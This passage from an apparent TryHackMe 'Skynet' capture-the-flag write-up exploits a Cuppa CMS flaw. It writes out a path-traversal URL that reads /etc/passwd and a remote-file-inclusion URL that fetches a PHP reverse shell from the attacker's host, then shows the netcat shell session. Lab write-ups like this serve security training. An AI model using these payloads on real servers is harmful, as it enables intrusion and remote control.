 Looking for cuppa exploits I find: https://www.exploit-db.com/exploits/25971

We can confirm the vulnerability exists by viewing the `/etc/passwd` file at: http://10.10.90.184/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

```
<SNIP>
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
```

Cool, let's now locate a copy of PentestMonkey's php-reverse-shell.php, set up a nc listener and an http server and download our script:

http://10.10.90.184/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.6.72.91/php-reverse-shell.php

This catches us a shell back as www-data:

```
┌──(ryan㉿kali)-[~/THM/Skynet]
└─$ nc -lnvp 443                                                      
listening on [any] 443 ...
connect to [10.6.72.91] from (UNKNOWN) [10.10.90.184] 48004
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 12:10:11 up 32 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
skynet
$ python -c 'import pty;pty.spawn("/bin/bash")'
```
We can now grab the user.txt flag:

![thm_skynet_user.png](../assets/skynet_assets/thm_skynet_user.png)
